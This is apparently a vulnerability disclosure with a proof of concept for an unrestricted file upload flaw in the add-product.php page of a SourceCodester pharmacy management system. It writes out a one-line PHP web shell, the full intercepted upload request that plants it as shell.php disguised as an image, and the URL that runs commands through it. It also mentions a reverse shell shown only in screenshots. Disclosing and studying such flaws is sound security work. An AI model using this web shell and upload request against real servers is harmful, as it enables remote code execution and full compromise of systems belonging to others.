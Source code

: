 Description

A vulnerability was found in SourceCodester Web-based Pharmacy Product Management System 1.0 and has been classified as critical. This issue exists in the product_expiry/add-product.php file and is caused by unrestricted file upload functionality. The application fails to properly validate the uploaded file's name, extension, and MIME type, allowing attackers to upload a malicious PHP file disguised as an image (e.g., .php file with image/jpeg MIME type). The uploaded file is placed in a publicly accessible directory (uploadImage/), which can then be accessed via a web browser to execute arbitrary commands on the server. This leads to remote code execution (RCE). Exploitation requires network access and authentication (if the upload form is protected), but can result in complete system compromise. Affected version: 1.0.

User can be added under the add-product.php route

![image](https://github.com/user-attachments/assets/b1e7d8c8-10c0-4e5c-b3ce-640b2065ccd5)



Affect code

Locate L27-L52 of add-product.php source code

![image](https://github.com/user-attachments/assets/848c21e4-9341-48db-b51e-864fed69e178)

Prepare payload (shell.php):

<?php system($_GET['cmd']); ?>

Rename the file to bypass client-side validation:

![add-product3](https://github.com/user-attachments/assets/199ee5f6-c6d2-4933-9313-05b27a31eaf5)

Upload the file 

![add-product4](https://github.com/user-attachments/assets/2397e8fc-3616-41ba-ad24-2cab24529244)

Intercept and modify upload  in Burp Suite:

Request:

POST /product_expiry/add-product.php HTTP/1.1

Host: localhost

Content-Length: 818

Cache-Control: max-age=0

sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Linux"

Upgrade-Insecure-Requests: 1

Origin: http://localhost

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryL9hOhT5TGmZHHMKF

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://localhost/product_expiry/add-product.php

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: PHPSESSID=k4708v59avndassvj5te41ha1u

Connection: close



------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="txtproduct_name"



test3

------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="cmdcategory"





------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="txtexpirydate"



2025-04-02

------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="txtqty"



100

------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="txtprice"



100

------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="avatar"; filename="shell.php"

Content-Type: image/png



<?php system($_GET['cmd']); ?>


------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="btnsave"





------WebKitFormBoundaryL9hOhT5TGmZHHMKF--

![add-product7](https://github.com/user-attachments/assets/b4cb4bd9-5b0e-4245-855c-3eb2a44afa11)


Access the shell:

http://localhost/product_expiry/uploadImage/shell.php?cmd=id


![add-product8](https://github.com/user-attachments/assets/6de008a2-ade4-4447-a597-8050b2a32257)


Reverse Shell using python:

![add-product9](https://github.com/user-attachments/assets/3c4e81e3-dbb9-4859-80fb-e437b6fa4afd)

![add-product10](https://github.com/user-attachments/assets/2e93a3fe-dbba-4036-a6a4-fb03124ccbb5)




